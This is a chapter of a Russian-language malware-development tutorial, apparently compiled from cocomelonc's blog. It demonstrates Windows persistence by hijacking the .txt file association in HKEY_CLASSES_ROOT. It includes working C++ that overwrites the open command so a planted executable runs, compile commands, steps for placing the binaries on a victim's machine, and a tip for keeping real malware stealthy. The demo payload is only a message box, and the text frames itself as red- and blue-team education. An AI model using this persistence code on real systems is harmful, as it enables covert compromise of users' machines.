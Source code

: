 \newpage
\subsection{75. Разработка вредоносного ПО: закрепление (persistence) - часть 9. Перехват ассоциации файлов. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/66/2022-08-29_02-25.png){width="80%"}    

Эта статья является результатом моего собственного исследования одного из интересных методов закрепления вредоносного ПО: перехват ассоциации файлов.    

### ассоциация файлов по умолчанию     

Например, при двойном щелчке по файлу `.txt`, он открывается с помощью `notepad.exe`.     

![pers](./images/66/2022-08-29_02-17.png){width="80%"}    

Windows знает, что необходимо использовать `notepad.exe` для доступа к `.txt` файлам, потому что расширение `.txt` (и многие другие) привязано к приложениям, способным открывать такие файлы, в реестре: `HKEY_CLASSES_ROOT`.

Таким образом, можно перехватить ассоциацию файлов по умолчанию, чтобы выполнить вредоносную программу.     

### практический пример    

Давайте попробуем перехватить `.txt`. В этом случае обработчик расширения `.txt` указан в следующем ключе реестра:     

`HKEY_CLASSES_ROOT\\txtfile\\shell\\open\\command`    

Выполним команду:    

```powershell
reg query "HKCR\txtfile\shell\open\command" /s
```

![pers](./images/66/2022-08-29_02-19.png){width="80%"}    

Затем создадим "вредоносное" приложение:     

```cpp
/*
hack.cpp
evil app for windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Как видите, логика довольно простая: просто всплывающее окно `meow-meow`.    

На следующем этапе мы перехватываем расширение `.txt`, изменяя значение `\HKEY_CLASSES_ROOT\txtfile\shell\open\command` с помощью этого скрипта:     

```cpp
/*
pers.cpp
windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // command for replace
  // "%SystemRoot%\\system32\\NOTEPAD.EXE %1"
  // malicious app
  const char* cmd = "Z:\\2022-08-26-malware-pers-9\\hack.exe";

  // hijacking logic
  LONG res = RegOpenKeyEx(HKEY_CLASSES_ROOT, (LPCSTR)
  "\\txtfile\\shell\\open\\command", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update key
    RegSetValueEx(hkey, (LPCSTR)"", 0, REG_SZ, (unsigned char*)cmd, 
    strlen(cmd));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видно из исходного кода, мы просто заменяем `%SystemRoot%\system32\NOTEPAD.EXE %1` на `Z:\2022-08-26-malware-pers-9\hack.exe`.

### демонстрация

Посмотрим, как это работает. Компилируем наш вредоносный код:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/66/2022-08-29_04-21.png){width="80%"}    

Сгенерированный `hack.exe` необходимо загрузить на машину жертвы.    

Затем компилируем программу, отвечающую за закрепление:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/66/2022-08-29_04-22.png){width="80%"}    

Сгенерированный `pers.exe` также нужно поместить на машину жертвы.     

Затем просто запускаем:    

```powershell
.\pers.exe
```

![pers](./images/66/2022-08-29_02-21.png){width="80%"}    

Теперь пробуем открыть `.txt` файл, например, двойным кликом по `test.txt`:     

![pers](./images/66/2022-08-29_02-22.png){width="80%"}    

![pers](./images/66/2022-08-29_02-24.png){width="80%"}    

Как видно, "вредоносное ПО" успешно выполняется. Отлично! :)    

Затем выполняем очистку:    

```powershell
reg add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /t REG_SZ /d "%SystemRoot%\system32\NOTEPAD.EXE %1"
```

![pers](./images/66/2022-08-29_02-34.png){width="80%"}    

В реальных вредоносных программах было бы хорошей практикой реализовать эту технику немного иначе, чтобы пользователь-жертва по-прежнему мог открывать оригинальный `.txt` файл, но при этом дополнительно запускал вредоносный код.     

Этот метод закрепления используется фреймворком [SILENTTRINITY](https://attack.mitre.org/software/S0692/) и кибершпионской группой [Kimsuky](https://attack.mitre.org/groups/G0094/). Это вредоносное ПО использовалось в кампании 2019 года против государственных агентств Хорватии неустановленными киберпреступниками.       

Надеюсь, этот пост поможет специалистам синей команды лучше понять данную технику и добавит новый инструмент в арсенал красных команд.    

[MITRE ATT&CK: Change Default File Association](https://attack.mitre.org/techniques/T1546/001/)     
[SILENTTRINITY](https://attack.mitre.org/software/S0692/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)      
[исходный код на Github](https://github.com/cocomelonc/meow/tree/master/2022-08-26-malware-pers-9)       
